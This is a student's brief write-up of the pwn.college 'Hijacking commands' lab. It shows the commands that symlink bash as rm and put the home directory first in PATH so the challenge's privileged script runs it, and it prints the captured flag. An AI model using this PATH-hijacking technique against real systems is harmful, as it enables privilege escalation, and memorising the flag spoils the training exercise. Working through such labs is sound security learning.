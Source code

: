 # Hijacking commands

## Procedure
i started the challenge pwn.college
as per the question.
then i typed `ln -s /usr/bin/bash ./rm` to create a symbolic link.
after that i appended  /home/hacker directory into path using `PATH=/home/hacker/:$PATH`.
then i pasted my flag to the website.

## Code
`hacker@path~hijacking-commands:~$ ln -s /usr/bin/bash ./rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker/:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker//rm. Executing!
/flag: line 1: pwn.college{kni0C3u52lGK4ImmKSgJJF5MqU-.ddzNyUDL5EjN0czW}: command not found`

## References
AI and lot of errors and time
